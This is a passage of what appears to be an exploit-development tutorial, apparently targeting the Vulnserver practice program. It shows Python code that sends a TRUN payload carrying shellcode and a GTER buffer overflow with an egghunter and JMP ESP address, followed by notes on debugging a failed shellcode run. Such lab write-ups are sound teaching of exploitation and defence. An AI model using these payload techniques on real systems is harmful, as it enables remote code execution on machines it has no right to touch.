 ```
shellcode += b"\x64\xac\x0d\xdc\xc5\x1c\xee\x8c\xad\x76\xe1"  
shellcode += b"\xf3\xce\x79\x2b\x9c\x65\x80\xbc\x63\xd1\x02"  
shellcode += b"\xca\x0c\x20\x12\x22\x91\xad\xf4\x2e\x39\xf8"  
shellcode += b"\xaf\xc6\xa0\xa1\x3b\x76\x2c\x7c\x46\xb8\xa6"  
shellcode += b"\x73\xb7\x77\x4f\xf9\xab\xe0\xbf\xb4\x91\xa7"  
shellcode += b"\xc0\x62\xbd\x24\x52\xe9\x3d\x22\x4f\xa6\x6a"  
shellcode += b"\x63\xa1\xbf\xfe\x99\x98\x69\x1c\x60\x7c\x51"  
shellcode += b"\xa4\xbf\xbd\x5c\x25\x4d\xf9\x7a\x35\x8b\x02"  
shellcode += b"\xc7\x61\x43\x55\x91\xdf\x25\x0f\x53\x89\xff"  
shellcode += b"\xfc\x3d\x5d\x79\xcf\xfd\x1b\x86\x1a\x88\xc3"  
shellcode += b"\x37\xf3\xcd\xfc\xf8\x93\xd9\x85\xe4\x03\x25"  
shellcode += b"\x5c\xad\x34\x6c\xfc\x84\xdc\x29\x95\x94\x80"  
shellcode += b"\xc9\x40\xda\xbc\x49\x60\xa3\x3a\x51\x01\xa6"  
shellcode += b"\x07\xd5\xfa\xda\x18\xb0\xfc\x49\x18\x91"

payload = "TRUN ."  
payload += "arzy"*2  
payload += "\xcc"  
payload += "\x90"*100  
payload += shellcode

r.readline()  
r.sendline(payload)  
r.readline()

egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"  
egghunter += "\xef\xb8\x61\x72\x7a\x79\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"

payload = ""  
payload += "GTER "  
payload += "A"*(151 - 50 + 2 + 4) # -50 for egghunter buffer, +4 for JMP ESP buffer  
payload += egghunter  
payload += "B"*(48 - 32 - 4) # 48 (buffer for egghunter - egghunter length), -4 for JMP ESP alignment  
payload += p32(0x625011af) # JMP ESP  
payload += "\xeb\xce\x90\x90" # JMP -50

r.sendline(payload)  
r.close()
```

![](https://cdn-images-1.medium.com/max/800/1*kGRSQeZo8KW5QMhDKuoTpg.png){: .align-center}

It successfully landed on our debugger. Let’s try to continue the program and check if the shellcode is executed successfully.

![](https://cdn-images-1.medium.com/max/800/1*W4r5xlDUE7tIJUffBTVZpA.png){: .align-center}

There was an issue encountered during shellcode execution. It seems that there was an issue with the contents of the registers or stack during execution.

Since the program is running as a server, I tried to close the current socket and reopened a new connection for the `egghutner payload`.
